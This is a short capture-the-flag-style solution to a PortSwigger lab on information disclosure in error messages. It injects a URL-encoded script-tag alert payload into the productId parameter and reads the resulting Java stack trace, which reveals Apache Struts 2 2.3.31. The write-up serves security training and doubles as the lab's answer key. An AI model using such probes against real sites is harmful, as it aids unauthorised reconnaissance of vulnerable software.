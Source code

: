 [Lab: Information disclosure in error messages](https://portswigger.net/web-security/information-disclosure/exploiting/lab-infoleak-in-error-messages)

This lab's verbose error messages reveal that it is using a vulnerable version of a third-party framework. To solve the lab, obtain and submit the version number of this framework.

---
## Solution

- payload: `<script>alert(12)</script>`
- `URL/product?productId=%3Cscript%3Ealert(12)%3C/script%3E`
- version `2 2.3.31`

```java
Internal Server Error: java.lang.NumberFormatException: For input string: "<script>alert(12)</script>"
	at java.base/java.lang.NumberFormatException.forInputString(NumberFormatException.java:67)
	at java.base/java.lang.Integer.parseInt(Integer.java:668)
	at java.base/java.lang.Integer.parseInt(Integer.java:786)
	at lab.y.o.c.u.M(Unknown Source)
	at lab.k.n2.w.e.R(Unknown Source)
	at lab.k.n2.s.p.b.u(Unknown Source)
	at lab.k.n2.s.k.lambda$handleSubRequest$0(Unknown Source)
	at c.r.i.e.lambda$null$3(Unknown Source)
	at c.r.i.e.b(Unknown Source)
	at c.r.i.e.lambda$uncheckedFunction$4(Unknown Source)
	at java.base/java.util.Optional.map(Optional.java:260)
	at lab.k.n2.s.k.I(Unknown Source)
	at lab.server.d.o.w.B(Unknown Source)
	at lab.k.n2.t.W(Unknown Source)
	at lab.k.n2.t.B(Unknown Source)
	at lab.server.d.o.k.g.a(Unknown Source)
	at lab.server.d.o.k.p.lambda$handle$0(Unknown Source)
	at lab.y.q.w.a.R(Unknown Source)
	at lab.server.d.o.k.p.c(Unknown Source)
	at lab.server.d.o.y.g(Unknown Source)
	at c.r.i.e.lambda$null$3(Unknown Source)
	at c.r.i.e.b(Unknown Source)
	at c.r.i.e.lambda$uncheckedFunction$4(Unknown Source)
	at lab.server.f5.u(Unknown Source)
	at lab.server.d.o.y.i(Unknown Source)
	at lab.server.d.v.c.v(Unknown Source)
	at lab.server.d.g.X(Unknown Source)
	at lab.server.d.i.X(Unknown Source)
	at lab.server.fd.N(Unknown Source)
	at lab.server.fd.s(Unknown Source)
	at lab.o.z.lambda$consume$0(Unknown Source)
	at java.base/java.util.concurrent.ThreadPoolExecutor.runWorker(ThreadPoolExecutor.java:1136)
	at java.base/java.util.concurrent.ThreadPoolExecutor$Worker.run(ThreadPoolExecutor.java:635)
	at java.base/java.lang.Thread.run(Thread.java:833)

Apache Struts 2 2.3.31
```